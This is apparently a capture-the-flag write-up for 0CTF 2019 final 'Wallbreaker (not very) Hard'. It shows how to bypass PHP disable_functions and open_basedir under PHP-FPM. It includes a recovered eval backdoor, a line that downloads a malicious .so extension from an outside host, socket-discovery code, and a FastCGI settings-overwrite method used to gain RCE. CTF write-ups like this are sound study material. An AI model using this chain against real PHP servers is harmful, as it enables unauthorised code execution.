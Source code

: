 # Wallbreaker (not very) Hard

## Problem

- This challenge environment is same as 0CTF 2019 qual - Wallbreaker Easy
    - PHP-FPM
    - PHP 7.2
    - strict `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - no `putenv` this time :p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/phpinfo.png)

- This challenge tells us there is a backdoor in somewhere
- After scanning, I found `.index.php.swp`
    - Recover it and get the backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- OK, it's time for bypass `disable_functions`和`open_basedir`

## Exploit

- In 0CTF qual, I forged fastcgi protocol to bypass `open_basedir` (overwrite the settings)
- But I found there is another way that is possible to bypass `disable_functions` to RCE
    - using the `extension`!
- So we just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension
- First step is to upload a RCE extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- Before building the fastcgi payload, we should find out its UNIX Socket path (if it use tcp, we need to find the port)

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- Then, starting to create FastCGI payload to overwrite settings. Here is the payload reference: [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - change the config, then run it


![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

